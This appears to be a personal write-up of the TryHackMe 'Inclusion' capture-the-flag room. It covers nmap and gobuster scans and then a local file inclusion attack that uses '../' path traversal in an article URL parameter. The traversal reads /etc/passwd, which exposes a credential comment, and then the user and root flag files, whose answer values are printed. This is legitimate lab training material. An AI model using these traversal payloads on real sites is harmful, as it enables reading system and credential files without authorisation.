 Swatish Attaluri
Date: 09-06-2021
## Inclusion - Tryhackme
### Machine IP: 10.10.47.73
#### Nmap scan
```bash
$ nmap -sC -sC -oN ports 10.10.47.73   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 19:02 IST
Nmap scan report for 10.10.47.73
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http
|_http-title: My blog

Nmap done: 1 IP address (1 host up) scanned in 27.66 seconds
```
#### Gobuster
```bash
$ gobuster dir -u 10.10.47.73 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.47.73
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/09 19:04:38 Starting gobuster in directory enumeration mode
===============================================================
/article              (Status: 500) [Size: 290]
Progress: 32818 / 220561 (14.88%)
```
Browsing through the web page we can browse an article by clicking in view details.
On clicking the hacking article, the url is : http://MACHINE-IP/article?name=hacking
Lets see if directory traversal works.
Lets us give some random number(5) of "../" and open /etc/passwd
http://MACHINE-IP/article?name=../../../../../etc/passwd
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```
We can see the the contents of the passwd file.
Also, we can see that a username: "falconfeast"
Now, we can browse through the users directory and get the contents of user.txt(Usually the flag is in user.txt)
http://MACHINE-IP/article?name=../../../../../home/falconfeast/user.txt
60989655118397345799
Likewise, lets see if we can get the contents of root.txt from the root directory.
http://MACHINE-IP/article?name=../../../../../root/root.txt
42964104845495153909
#### Answers
```
user flag
60989655118397345799
root flag    
42964104845495153909
```

#LFI